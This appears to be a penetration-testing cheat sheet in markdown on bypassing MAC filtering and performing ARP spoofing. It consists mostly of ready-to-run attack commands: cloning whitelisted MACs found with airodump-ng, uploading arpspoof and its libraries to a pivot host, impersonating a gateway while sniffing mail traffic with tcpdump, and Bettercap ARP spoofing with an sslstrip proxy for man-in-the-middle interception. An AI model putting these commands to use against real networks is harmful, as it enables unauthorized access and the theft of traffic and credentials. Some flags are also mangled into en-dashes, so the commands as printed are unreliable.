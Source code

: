 MAC & ARP
=========

### MAC Filtering

##### Ethernet


sudo macchanger -a eth0

##### WiFi

```bash
sudo airmon-ng start wlan0
airodump-ng –c [channel]–bssid [target router MAC Address]–i wlan0mon  # Trouver des MAC whitelisted
sudo airmon-ng stop wlan0mon
sudo ifconfig wlan0 down
sudo macchanger -m [New MAC Address] wlan0
sudo ifconfig wlan0 up
```

### ARP Spoofing

    Old technique but still usable sometimes
    You can spoof ARP trafic in order to discover new machines
    If you are pivoting through a machine, you may need to upload arpspoof on the target

scp /usr/sbin/arpspoof user@ip:/tmp

# Then, you may need to identify and upload specific librairies
# WARNING : It can be dangerous for target
ldd /usr/sbin/arpspoof 
scp <path> user@ip:/tmp
export LD_PRELOAD=./libnet.so.1

# Then you can exploit on the target
# Example, spoof a gateway to discover a DC
arpspoof -i eth1 -t <victim> <impersonated machine>
 
# Terminal 2
tcpdump -i eth1 -A tcp port 143 or port 25

### ARP Spoofing using Bettercap


# Activate router mode on attacker machine
echo 1 > /proc/sys/net/ipv4/ip_forward

# Show machines in the LAN
> net.show

# Set target for ARP spoofing
> set arp.spoof.targets 192.168.5.99

# Launch attack
> arp.spoof on

### Proxy MiTM using Bettercap


# Configure sniffer verbosity
> set net.sniff.verbose false
> net.sniff on

# Then set the SSL proxy (It will create an autogenerated SSL cert)
> set http.proxy.sslstrip true
> http.proxy on
